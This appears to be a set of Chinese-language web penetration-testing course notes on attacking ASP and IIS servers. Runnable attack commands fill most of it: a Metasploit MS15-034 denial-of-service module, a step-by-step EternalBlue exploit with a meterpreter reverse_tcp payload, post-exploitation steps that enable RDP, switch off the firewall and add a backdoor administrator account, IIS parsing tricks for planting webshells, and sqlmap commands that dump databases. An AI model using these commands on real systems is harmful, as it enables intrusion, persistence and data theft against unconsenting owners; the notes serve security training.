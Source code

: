 Day41 WEB攻防-ASP应用&HTTxP.SYS&短文件&文件解析&Access注入&数据库泄漏
#ASP-默认安装-MDB数据库泄漏下载 
大部分ASP程序使用ACCESS数据库搭建，
ACCESS只是一个后缀为*.mdb的文件，在脚本文件中定义配置好数据库路径即用，不需要额外配置安装数据库，所以大部分提前固定好的数据库路径如默认未修改，当攻击者知道数据库的完整路径，可远程下载后解密数据实现攻击。 

#ASP-中间件-CVE&短文件&解析&写权限 -HTTP.SYS（CVE-2015-1635）
 1、漏洞描述 远程执行代码漏洞存在于 HTTP 协议堆栈 (HTTP.sys) 中，当 HTTP.sys 未正确分 析经特殊设计的 HTTP 请求时会导致此漏洞。 成功利用此漏洞的攻击者可以在系统帐户 的上下文中执行任意代码。 
2、影响版本 Windows 7、Windows Server 2008 R2、Windows 8、Windows Server 2012、Windows 8.1 和 Windows Server 2012 R2 
3、漏洞利用条件 安装了IIS6.0以上的Windows 7、Windows Server 2008 R2、Windows 8、 Windows Server 2012、Windows 8.1 和 Windows Server 2012 R2版本 
4、漏洞复现 
msfconsole 
use auxiliary/dos/http/ms15_034_ulonglongadd
set rhosts xx.xx.xx.xx 
set rport xx 
exploit
（此漏洞会导致受害者蓝屏，无法进行提权。）

永恒之蓝
### **步骤 1：环境准备**
1. **目标系统**：未安装MS17-010补丁的Windows 7（确认`445`端口开放）。
2. **攻击机**：Kali Linux（安装Metasploit、nmap、rdesktop等工具）。
3. **网络**：确保目标与Kali在同一网络（或可路由）。

### **步骤 2：扫描目标漏洞**
使用`nmap`检测目标是否存在MS17-010漏洞：
```bash
nmap -p445 --script smb-vuln-ms17-010 <目标IP>
```
### **步骤 3：利用MS17-010漏洞**
1. **启动Metasploit**：
   ```bash
   msfconsole
   ```
2. **选择漏洞模块**：
   ```msf
   use exploit/windows/smb/ms17_010_eternalblue
   ```
3. **配置参数**：
   ```msf
   set RHOSTS <目标IP>
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST <Kali的IP>
   ```
4. **执行攻击**：
   ```msf
   exploit
   ```
   成功后会获得`meterpreter`会话。
### **步骤 4：启用远程桌面（RDP）**
1. **自动启用RDP（推荐）**：
   ```msf
   run post/windows/manage/enable_rdp
   ```
   此命令会自动开启RDP、添加防火墙规则，并提示连接端口。
2. **手动启用RDP（备用）**：
   - 启用远程桌面服务：
     ```meterpreter
     reg setval -k "HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server" -v fDenyTSConnections -d 0
     ```
   - 启动服务：
     ```meterpreter
     execute -f cmd.exe -a "/c sc start TermService"
     ```
   - 关闭防火墙（可选）：
     ```meterpreter
     execute -f cmd.exe -a "/c netsh advfirewall set allprofiles state off"
     ```

3. **创建或激活用户**（若需要）：
   ```meterpreter
   shell
   net user hacker P@ssw0rd /add
   net localgroup administrators hacker /add
   net localgroup "Remote Desktop Users" hacker /add
   exit
  
### **步骤 5：连接远程桌面**
1. **使用rdesktop连接**：
   rdesktop <目标IP>:3389 -u hacker -p P@ssw0rd

IIS短文件 
1、此漏洞实际是由HTTP请求中旧DOS 8.3名称约定(SFN)的代字符(~)波浪号引起的。它允许远程攻击者在Web根目录下公开文件和文件夹名称(不应该可被访问)。攻击者可以找到通常无法从外部直接访问的重要文件,并获取有关应用程序基础结构的信息。 
2、漏洞成因: 为了兼容16位MS-DOS程序,Windows为文件名较长的文件(和文件夹)生成了对应的 windows 8.3短文件名。在Windows下查看对应的短文件名,可以使用命令dir /x 
3、应用场景：后台路径获取，数据库文件获取，其他敏感文件获取等 
4、利用工具： 
https://github.com/irsdl/IIS-ShortName-Scanner https://github.com/lijiejie/IIS_shortname_Scanner -

IIS 6 解析漏洞
1、该版本默认会将*.asp;.jpg 此种格式的文件名，当成Asp解析
2、该版本默认会将*.asp/目录下的所有文件当成Asp解析。
如:1ogo.asp;.jpgxx.asp/logo.jpg

IIS 7.x 解析漏洞
在一个文件路径(/xx.jpg)后面加上/xx.php会将/xx.jpg/xx.php 解析为php文件
应用场景:配合文件上传获取webshel1

IIS写权限
IIS<=6.0 目录权限开启写入，开启WebDAV，设置为允许
参考利用:https://cloud.tencent.com/developer/article/2050105

#ASP-SQL注入-SQLMAP使用&ACCESS注入
ACCESS数据库无管理帐号密码，顶级架构为表名，列名(字段)，数据，所以在注入猜解中一般采用字典猜解表和列再获取数据，猜解简单但又可能出现猜解不到的情况，由于Access数据库在当前安全发展中已很少存在，故直接使用SQLMAP注入。
sqlmap -u "" --tables  //获取表名
sqlmap -u "" --columns -T xxx  //获取xxx表名下的列名
sqlmap -u -dump -C "" -T admin //获取表名下的列名数据

一些情况
SQL注入：网站对用户的输入没有进行过滤，导致重新定义SQL语句执行。
404页面 -容错页面 这是代码的逻辑设置
sql="select top 1 * from aboutusclass where classid="&classid                    &"  order by OrderID "
sql="select top 1 * from aboutusclass where classid="&3&" union select#   &"  order by OrderID "
